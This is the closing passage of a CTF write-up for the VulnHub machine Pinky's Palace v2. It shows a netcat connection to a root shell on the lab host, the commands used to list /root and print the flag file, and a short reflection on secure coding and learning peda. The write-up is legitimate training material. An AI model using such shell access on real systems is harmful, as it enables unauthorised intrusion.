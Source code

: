 Then on another CLI:

```
root@kali:~/vulnhub/pinkypalace/panel# nc -v pinkydb 5600
pinkydb [10.20.20.133] 5600 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux Pinkys-Palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
cd /root
ls -al
total 24
drwx------  2 root root 4096 Mar 17  2018 .
drwxr-xr-x 25 root root 4096 Mar 17  2018 ..
lrwxrwxrwx  1 root root    9 Mar 17  2018 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
lrwxrwxrwx  1 root root    9 Mar 17  2018 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1953 Mar 17  2018 .viminfo
-rw-------  1 root root  639 Mar 17  2018 root.txt
cat root.txt

 ____  _       _          _     
|  _ \(_)_ __ | | ___   _( )___ 
| |_) | | '_ \| |/ / | | |// __|
|  __/| | | | |   <| |_| | \__ \
|_|   |_|_| |_|_|\_\\__, | |___/
                    |___/       
 ____       _                   
|  _ \ __ _| | __ _  ___ ___ 
| |_) / _` | |/ _` |/ __/ _ \
|  __/ (_| | | (_| | (_|  __/
|_|   \__,_|_|\__,_|\___\___|

[+] CONGRATS YOUVE PWND PINKYS PALACE!!!!!!                             
[+] Flag: 2208f787fcc6433b4798d2189af7424d
[+] Twitter: @Pink_P4nther
[+] Cheers to VulnHub!
[+] VM Host: VMware
[+] Type: CTF || [Realistic]
[+] Hopefully you enjoyed this and gained something from it as well!!!
exit
```

And we solved this CTF.

## Conclusion

I really enjoyed this CTF. It began rather simple and got kind hard in the end. It teached me how to use peda :grin:!

Also it shows how important it is to code securely. Not testing buffer is kinda bad thing, even more when you use it in a listening service.

So, next it Pinky's Palace v3 I think :smile:

